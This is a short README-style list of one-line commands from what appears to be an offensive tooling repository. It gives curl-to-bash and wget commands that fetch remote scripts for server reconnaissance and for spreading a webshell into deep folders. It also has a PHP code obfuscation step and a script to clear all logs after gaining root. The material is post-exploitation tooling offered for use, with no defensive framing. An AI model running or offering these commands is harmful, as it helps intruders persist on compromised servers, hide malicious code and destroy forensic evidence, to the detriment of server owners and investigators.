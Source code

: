 netstat if there is no netstat/ss/lsof:
```sh
curl -fsSL https://raw.githubusercontent.com/haxor-research/tools/master/awk_netstat.sh | bash
```
Show all domains hosted on a server + system-information :
```sh
curl -fsSL https://raw.githubusercontent.com/haxor-research/tools/master/what_server.sh | bash
```
Spreading your webshell to the deepest destination folder 
```sh
wget https://raw.githubusercontent.com/haxor-research/tools/master/dor
```
Encrypt ur PHP Code
```php
php ob.php
```
Clear all logs if gain root
```sh
curl -fsSL https://raw.githubusercontent.com/haxor-research/tools/master/clear.sh | sh
```
